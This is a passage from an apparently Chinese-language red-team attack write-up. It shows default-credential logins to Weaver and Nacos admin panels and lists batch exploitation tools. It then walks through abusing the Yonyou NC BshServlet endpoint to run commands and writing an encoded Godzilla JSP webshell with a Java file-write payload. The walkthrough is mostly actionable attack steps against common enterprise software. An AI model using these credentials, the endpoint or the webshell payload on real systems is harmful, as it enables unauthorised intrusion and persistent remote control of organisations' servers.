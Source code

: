 对于一些应用广泛的系统，可以通过google语法搜索其默认密码

![image_ejxlTxW5Av.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-e1f87c16ecca92f639432141e0501dcfb5dffd9e.png)

这里通过`sysadmin/1` 成功登入泛微后台

![t1sb-w5grl_9Xl3mB_bqn.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-dbd36ed9df1438d353eec280ce0f092e50651bc3.png)

`nacos/nacos`

![image-20220723225803735.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-38a9be542fc727e3f349b3f980464bf40f9389d1.png)

常见漏洞利用
------

对于多目标的攻防演练，个人比惯把目标子域url搜集好，去重后批量导进去指纹识别工具，如Goby、fofahub

从指纹识别结果里筛选出重要资产进行突破，使用已知漏洞或day进行攻击

以下为一些批量漏洞利用工具：

<https://github.com/Anonymous-ghost/AttackWebFrameworkTools-5.0>  
<https://github.com/d3ckx1/Fvuln>  
<https://github.com/W01fh4cker/Serein>

框架类的如log4j、shiro、struts2等

OA类的如致远、泛微、用友、蓝凌等，这里也是找到了目标的用友nc站点

### 用友nc写shell

![56xk-0ba58_-A3uKrDLZX.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-34daa96d003b19ef71194285c7f73c2915deb78c.png)

访问接口/servlet/~ic/bsh.servlet.BshServlet执行命令

![d5lhwsk0r8_WfpuDtbLpm.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-fe4b42fed35fb30d9835ee7958673c7330a89b28.png)

dnslog探测了一下发现不出网，这里直接写入webshell

1、首先生成一个哥斯拉的jsp木马，然后进行unicode编码

![image_796oyMMBO3.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-ad943e7472c2d8799609a712edbe7aa0c7d57c83.png)

2、再把输出结果进行url编码

![image_zZUpiKMWn1.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-523d50eb793de4fd5e7735ce34e800abcbf0ce62.png)

3、payload字段如下，这里写入默认路径为 webapps/nc\_web ，实战中灵活应变

```php
String keyWord = URLDecoder.decode("xxxxxx（填入生成内容）xxxxxx", "utf-8");    
BufferedWriter out = new BufferedWriter(new FileWriter("/webapps/nc\_web/test.jsp"));  
out.write(keyWord);  
out.close();
```

这里直接写入哥斯拉马，连接成功
